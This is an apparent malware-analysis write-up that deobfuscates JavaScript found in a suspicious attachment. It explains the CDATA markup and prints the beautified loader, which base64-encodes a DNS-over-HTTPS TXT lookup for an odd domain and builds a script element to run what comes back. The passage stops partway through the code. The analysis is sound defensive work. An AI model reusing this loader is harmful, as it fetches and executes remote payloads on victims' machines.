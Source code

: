 
There are two script blocks in the attachment.  The first script block starts on Line 5 and it contains JavaScript code.  Line 5 contains some interesting code:

`xml:space="preserve">//<![CDATA[`

The first part `xml:space="preserve">` is at the end of the HTML script tag.  

Here is what it means [3]:

> The xml:space="preserve" directive says that space within element content is significant.

It's basically a XML parser instruction that specifies space is important.

The second part `//<![CDATA[` is the start of the JavaScript code. In JavaScript `//` denotes a comment.  

Here is what `<![CDATA[` means in XML [4]:

> The term CDATA means, Character Data. CDATA is defined as blocks of text that are not parsed by the parser, but are otherwise recognized as markup.
> ...
>
> Following is the syntax for CDATA section −
>
> ```
> <![CDATA[
>    characters with markup
> ]]>
> ```

The above also explains Line 8 of the attachment file.  `]]>` means it's the end of the CDATA section.  

This leaves line 6 and 7 that is the actual obfuscated JS code.  Lets take a closer look.

First, lets see if we can make the code more readable using a JS  beautifier.  There are many different websites online that provide this service.  On our sandbox, using the one [here](https://beautifier.io/) we beautify line 6 and 7.  Here is resulting code:

{% highlight JavaScript linenos %}
var v = window.atob("aHR0cHM6Ly9kbnMuZ29vZ2xlLmNvbS9yZXNvbHZlP25hbWU9ZmV0Y2guc2x6eGtjZWUuZ2xhbWlzYm91bmQuY29tJnR5cGU9VFhU");
var _0x2b42 = ['0xc', 'open', 'GET', 'onreadystatechange', 'status', 'readyState', 'parse', 'responseText', 'createElement', 'script', 'innerHTML', 'substring', 'send', 'push', 'shift', '0x0', '0x1', '0x2', '0x3', '0x4', '0x5', '0x6', '0x7', 'data', '0x8', '0x9', '0xa', '0xb', 'length', 'body'];
(function(_0x26248d, _0x33adc9) {
    var _0x47fb3a = function(_0xb8f9b1) {
        while (--_0xb8f9b1) {
            _0x26248d['push'](_0x26248d['shift']());
        }
    };
    _0x47fb3a(++_0x33adc9);
}(_0x2b42, 0x97));
var _0x58f7 = function(_0x3aa2b9, _0x591490) {
    _0x3aa2b9 = _0x3aa2b9 - 0x0;
    var _0x2886d9 = _0x2b42[_0x3aa2b9];
    return _0x2886d9;
};

function ccc() {
    var _0x3bf9f2 = [_0x58f7('0x0'), _0x58f7('0x1'), _0x58f7('0x2'), _0x58f7('0x3'), _0x58f7('0x4'), _0x58f7('0x5'), _0x58f7('0x6'), 'Answer', _0x58f7('0x7'), _0x58f7('0x8'), _0x58f7('0x9'), _0x58f7('0xa'), 'appendChild', _0x58f7('0xb')];
    (function(_0x532510, _0x26a9cf) {
        var _0x47b474 = function(_0x5c32a3) {
            while (--_0x5c32a3) {
                _0x532510[_0x58f7('0xc')](_0x532510[_0x58f7('0xd')]());
            }
        };